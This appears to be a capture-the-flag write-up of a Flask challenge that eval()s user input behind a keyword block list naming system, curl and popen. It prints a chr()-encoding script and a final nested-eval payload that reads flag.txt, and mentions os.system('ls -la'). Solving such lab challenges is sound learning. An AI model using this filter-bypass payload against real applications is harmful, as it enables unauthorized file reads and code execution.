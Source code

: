 # solution

Take a quick look at the source code

```
#!/usr/bin/python3
from flask import Flask, request, render_template
import string
import subprocess
import re


app = Flask(__name__)


def filter(formula):
    w_list = list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
    w_list.extend([" ", ".", "(", ")", "+"])

    if re.search("(system)|(curl)|(flag)|(subprocess)|(popen)", formula, re.I):
        return True
    for c in formula:
        if c not in w_list:
            return True


@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "GET":
        return render_template("index.html")
    else:
        formula = request.form.get("formula", "")
        if formula != "":
            if filter(formula):
                return render_template("index.html", result="Filtered")
            else:
                try:
                    formula = eval(formula)
                    return render_template("index.html", result=formula)
                except subprocess.CalledProcessError:
                    return render_template("index.html", result="Error")
                except:
                    return render_template("index.html", result="Error")
        else:
            return render_template("index.html", result="Enter the value")


app.run(host="0.0.0.0", port=8000)
```

We need to bypass filter function to trigger malicious payload on **eval()** function. After searching i find that we can use chr() to represent a character such as chr(65) for "A". The name flag's file is flag.txt. So i think we can use **open('flag.txt').read()** to read the file (if you want to know, you can use os.system('ls -la') to read all file in currently dir).

```
def string_to_chr(s):
    return '+'.join(f'chr({ord(c)})' for c in s)

input_string = "open('flag.txt').read()"
result = string_to_chr(input_string)
print(result)

```

here after i run that code

```
chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41)
```

![alt text](image.png)<br>
Hmm seem this work, but it seems to just convert the chr() string to a normal character string.

Since I changed it to chr() ~ to avoid filtering, when I actually send it I have to use eval() again to send it in plain text.

formula = eval( eval(chr~~) )

The inner eval converts the chr to plain text.

The outer eval is responsible for executing the command.

Final payload

```
eval(chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41))
```

![alt text](image-1.png)<br>
